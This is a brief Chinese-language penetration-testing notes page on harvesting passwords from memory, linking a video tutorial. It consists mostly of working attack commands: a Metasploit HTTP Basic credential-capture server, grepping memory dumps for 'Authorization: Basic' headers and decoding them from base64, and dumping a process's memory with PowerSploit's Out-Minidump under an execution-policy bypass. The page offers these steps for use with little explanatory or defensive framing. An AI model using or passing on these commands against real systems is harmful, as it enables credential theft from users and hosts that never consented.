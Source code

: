 ```yaml
---
title: 内存密码挖掘
categories:
- windows
tags:
- windows
---
```

内存密码挖掘
===

视频教程地址：[https://www.acfun.cn/v/ac12995637](https://www.acfun.cn/v/ac12995637)
msfconsole -r pass.rc
```
use auxiliary/server/capture/http_basic
set uripath x
run
```
访问http://192.168.1.101/x

```
strings /root/Desktop/*.DMP | grep "Authorization: Basic"
echo "cXdmOnF3Zg==" | base64 -d
```
## powersploit
使用该脚本获取内存中的密码
```
powershell -nop -ep bypass
Import-Module C:\Users\user\Desktop\Out-Minidump.ps1
Out-Minidump Get-Process -Id pid 
```

